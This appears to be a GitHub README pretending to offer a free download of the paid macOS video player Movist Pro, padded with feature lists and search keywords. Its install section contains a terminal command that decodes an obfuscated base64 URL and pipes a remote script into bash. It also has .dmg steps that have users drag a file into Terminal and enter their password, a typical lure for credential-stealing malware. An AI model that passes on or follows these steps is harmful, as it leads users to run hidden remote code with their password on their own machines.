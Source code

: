 # Movist Pro Mac Download

![Movist Pro Screenshot](https://movistprime.com/resources/images/movist_appicon.png)

[![Download Now](https://img.shields.io/badge/Download--Now-Movist%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/movistpromac)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Movist Pro for Mac?

**Movist Pro** is a sleek, powerful, and highly customizable video player built exclusively for **macOS**. Designed with both performance and simplicity in mind, Movist Pro supports a wide range of video formats including H.264, H.265 (HEVC), 4K Ultra HD, and more—ensuring smooth playback and crisp visuals even with high-resolution content.

At its core, Movist Pro is built for users who want complete control over their viewing experience. Whether you're watching a movie, a TV series, or streaming a lecture, you can fine-tune playback with detailed controls for subtitles, audio sync, color adjustments, and display settings.

The app features a clean, modern interface with floating controllers, customizable overlays, and dark/light themes that feel native to macOS. It also supports **hardware-accelerated decoding**, ensuring battery-friendly performance on MacBook Air, Pro, and iMac—whether on Intel or Apple Silicon (M1, M2, M3).

Movist Pro also allows subtitle downloading, supports playlist and queue management, auto bookmarks your last playback position, and can play from local files or network servers (FTP/SFTP/WebDAV/NAS).

Whether you're a casual viewer or a media enthusiast, **Movist Pro for Mac** delivers a refined, cinema-like playback experience with advanced control over every detail.

![Movist Pro Screenshot](https://movistprime.com/resources/images/etc_en.jpg)

---

## 🌟 Key Features & Benefits

- 🎥 **High-Quality Playback** — Supports H.264, H.265 (HEVC), 4K, and Ultra HD video formats.
- ⚡ **Hardware Acceleration** — Optimized for macOS with native Apple Silicon (M1/M2/M3) support.
- 🖥️ **Beautiful Interface** — Minimalist UI with customizable overlays and macOS-style dark mode.
- 📂 **Playlist & Queue Support** — Easily manage and play multiple videos in sequence.
- 🔠 **Advanced Subtitles** — External/internal subtitle support with fine-grained control (font, color, timing).
- 🌐 **Network Streaming** — Play videos from FTP, SFTP, WebDAV, or NAS servers.
- 📌 **Auto Resume** — Remembers your last playback position.
- 🎚️ **Audio & Video Tweaks** — Adjust sync, brightness, contrast, and saturation in real-time.
- 🧩 **Compact & Lightweight** — Uses fewer system resources than traditional media players.

---

## 🖥️ System Requirements

- **macOS**: 10.13 High Sierra or later  
- **Processor**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: ~100 MB  
- **License**: Paid (Free trial available)

---

## 🏷️ Keywords

movist pro, movist pro for mac, movist pro mac, movistpro, movist pro mac download, movist pro download mac, movist pro download free, movist pro download
